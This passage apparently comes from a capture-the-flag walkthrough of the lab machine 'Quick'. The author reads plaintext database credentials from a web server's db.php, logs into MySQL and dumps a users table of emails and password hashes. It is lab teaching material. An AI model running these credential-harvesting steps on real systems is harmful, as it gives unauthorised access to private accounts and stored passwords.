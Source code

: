There is an interesting file on `/var/www/` which the `Esigate` is being configured, we check around and found `db.php` has credential to log into **mysql**.

```
sam@quick:/var/www/html$ cat db.php
<?php
$conn = new mysqli("localhost","db_adm","db_p4ss","quick");
?>
sam@quick:/var/www/html$
```

## **<span style='color:#ff5555'>MySQL</span>**
***

```
sam@quick:/var/www/html$ mysql -h localhost -u db_adm -p
Enter password:
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 344
Server version: 5.7.29-0ubuntu0.18.04.1 (Ubuntu)

Copyright (c) 2000, 2020, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| quick              |
| sys                |
+--------------------+
5 rows in set (0.00 sec)

mysql> use quick;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
+-----------------+
| Tables_in_quick |
+-----------------+
| jobs            |
| tickets         |
| users           |
+-----------------+
3 rows in set (0.00 sec)

mysql> select * from users;
+--------------+------------------+----------------------------------+
| name         | email            | password                         |
+--------------+------------------+----------------------------------+
| Elisa        | elisa@wink.co.uk | c6c35ae1f3cb19438e0199cfa72a9d9d |
| Server Admin | srvadm@quick.htb | e626d51f8fbfd1124fdea88396c35d05 |
+--------------+------------------+----------------------------------+
2 rows in set (0.00 sec)
```